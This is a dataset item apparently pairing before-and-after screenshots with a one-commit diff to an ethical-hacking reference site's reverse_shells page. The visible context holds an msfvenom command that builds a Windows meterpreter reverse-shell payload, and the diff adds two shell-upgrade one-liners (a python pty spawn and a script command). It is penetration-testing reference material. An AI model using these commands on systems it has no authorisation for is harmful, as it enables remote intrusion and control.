

Before and after one commit to curious-attempt-bunny/ethical-hacking-reference-docs, a Sphinx documentation site: the page built from source/reverse_shells.md, in a window 1280 px wide and 1286 px high. Shown: the whole window at 85% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update reverse_shells.md

````diff
--- a/source/reverse_shells.md
+++ b/source/reverse_shells.md
@@ -30,6 +30,12 @@ msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f asp > msfshe
 ```
 python3 -c 'import pty; pty.spawn("/bin/sh")'
 ```
+```
+python -c 'import pty; pty.spawn("/bin/sh")'
+```
+```
+/usr/bin/script -qc /bin/bash /dev/null
+```
 
 ## WAR
 
````
